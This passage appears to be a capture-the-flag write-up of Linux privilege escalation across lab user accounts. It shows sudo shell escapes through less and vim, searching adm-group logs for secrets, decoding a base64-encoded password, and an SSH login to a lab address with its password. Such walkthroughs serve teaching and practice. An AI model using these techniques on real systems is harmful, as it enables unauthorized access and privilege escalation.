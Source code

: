 
## Jordan -> Ken
```
sudo -l
sudo -u ken /usr/bin/less /home/ken/flag.txt
!sh
bash
cd ~
cat flag.txt
```

## Ken -> Sean
```
sudo -l
sudo -u sean /usr/bin/vim
:!sh
bash
cd ~
```

Sean is a fun one. This took me a while to work out and with a little help from Linpeas I got it!

```
groups
find / -group adm 2>/dev/null
grep -i sean{ /var/log/* 2>/dev/null
```

Essentially, Sean is part of the adm group which is a non standard group. This set of alarm bells as this isn't something that usually occurs. This makes me think there is something special about this group.

The find command searches for all files belonging to this group and there is a large amount of log files

Log files are good for finding passwords so by association flags may also be there. The grep command searches through every file and redirects the errors so it doesn't clog our terminal up.

## Sean -> Penelope

There is also a base64 string which we can decode using the base64 command
```
echo "VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==" | base64 -d 
```

This tells us the password for the penelope user account.

So we have something a little more stable we're going to use a fresh SSH session
```
ssh agent47@10.10.9.158

640509040147
su penelope
cd ~
```
